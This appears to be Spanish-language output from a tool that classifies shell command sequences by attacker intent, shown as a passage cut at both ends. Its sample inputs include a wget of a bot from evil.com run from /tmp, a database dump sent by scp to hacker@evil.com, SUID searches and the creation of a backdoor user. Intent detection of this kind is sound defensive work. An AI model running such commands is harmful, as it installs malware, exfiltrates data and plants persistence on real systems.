    34.0% ██████████ Reconocimiento/Escaneo
    19.1% █████ Persistencia/Backdoor
    16.3% ████ Descarga Malware/Botnet

🔍 Secuencia: ['cd /tmp', 'wget http://evil.com/bot', 'chmod +x bot', './bot']
🚨 Intención detectada:
    32.2% █████████ Destrucción/Ransomware
    28.0% ████████ Descarga Malware/Botnet
    13.2% ███ Robo de Datos

🔍 Secuencia: ['sudo -l', 'find / -perm -4000']
🚨 Intención detectada:
    64.5% ███████████████████ Escalada de Privilegios
     8.7% ██ Robo de Datos
     7.9% ██ Persistencia/Backdoor

🔍 Secuencia: ['mysqldump -u root -p123456 db_name > dump.sql', 'scp dump.sql hacker@evil.com:/tmp/']
🚨 Intención detectada:
    95.6% ████████████████████████████ Robo de Datos
     1.2%  Descarga Malware/Botnet
     1.1%  Persistencia/Backdoor

🔍 Secuencia: ['useradd -m -s /bin/bash sysadmin', 'echo crontab -l']
🚨 Intención detectada:
    93.8% ████████████████████████████ Persistencia/Bac